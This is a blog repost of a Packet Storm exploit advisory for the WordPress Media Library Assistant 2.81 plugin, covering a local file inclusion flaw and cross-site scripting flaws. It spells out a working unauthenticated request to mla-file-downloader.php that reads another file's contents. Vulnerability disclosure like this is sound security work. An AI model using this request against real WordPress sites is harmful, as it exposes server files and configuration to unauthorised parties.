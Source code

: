 ```yaml
---
layout: post
title: WordPress Media Library Assistant 2.81
date: 2020-04-14 03:45 +0300
categories: [Exploits, File Inclusion]
tags: [exploits]
---
```









![](../../../assets/img/Exploits/wordpressmedia.png)

The plugin version 2.81 of WordPress Media Library Assistant has a vulnerability that allows for local file inclusion.

  

```
MD5 | b31e7279051191481d8919615b301f40
```

```perl
# Exploit Title: Wordpress Plugin Media Library Assistant 2.81 - Local File Inclusion
    # Google Dork: N/A
    # Date: 2020-04-13
    # Exploit Author: Daniel Monzón (stark0de)
    # Vendor Homepage: http://davidlingren.com/
    # Software Link: https://wordpress.org/plugins/media-library-assistant/
    # Version: 2.81
    # Tested on: Windows 7 x86 SP1
    # CVE : CVE-2020-11731, CVE-2020-11732
    
    ----Local File Inclusion----------------------------
    
    There is a file inclusion vulnerability in the mla-file-downloader.php file. Example:
    
    http://server/wordpress/wp-content/plugins/media-library-assistant/includes/mla-file-downloader.php?mla_download_type=text/html&mla_download_file=C:\Bitnami\wordpress-5.3.2-2\apps\wordpress\htdocs\wp-content\plugins\updraftplus\options.php
    
    Visiting the above URL would lead to disclosure of the contents of options.php. Note that this vulnerability does not require authentication.
    
    
    ----Multiple Cross-Site-Scripting-------------------
    
    There are both reflected and stored cross-site scripting vulnerabilities in almost all Settings/Media Library Assistant tabs, which allow remote authenticated users to execute arbitrary JavaScript.
    
    Note that this vulnerability requires authentication.
    
    
    
    Tested on Windows 7 Pro SP1 32-bit and Wordpress 5.3.2
```

<br>

  

>*Source* :   [https://packetstormsecurity.com](https://packetstormsecurity.com)